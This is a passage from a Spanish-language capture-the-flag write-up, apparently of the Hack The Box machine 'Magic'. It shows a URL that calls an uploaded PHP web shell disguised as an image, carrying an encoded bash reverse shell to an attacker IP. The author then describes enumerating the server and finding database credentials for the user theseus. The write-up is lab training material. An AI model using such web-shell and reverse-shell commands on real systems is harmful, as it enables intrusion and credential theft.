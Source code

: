 ```bash
http://10.10.10.185/images/uploads/23.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.69%2F1233%200%3E%261%27
```

![reverseshellwwwdata](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/reverseshellwwwdata.png)

Listo, estamos dentro :)

Lo siguiente (óptimo, necesario, preferible) es hacer tratamiento de la tty (entorno de entrada y salida de texto), ya que la Shell que tenemos no es completamente interactiva, acá me apoyo de s4vitar (aún no me aprendo los pasos :P)

* [Video de s4vitar explicando](https://www.youtube.com/watch?v=amKkzk-yP14&t=953).

Y ahora a enumerar... Hay varios archivos interesantes en `$ ls /var/www/Magic`.

![rsls_la](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/rsls_la.png)

El archivo `db.php5` tiene unas credenciales, que coinciden con el único usuario que hay en el sistema aparte de root: **theseus**.

![rsdbphp5](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/rsdbphp5.png)
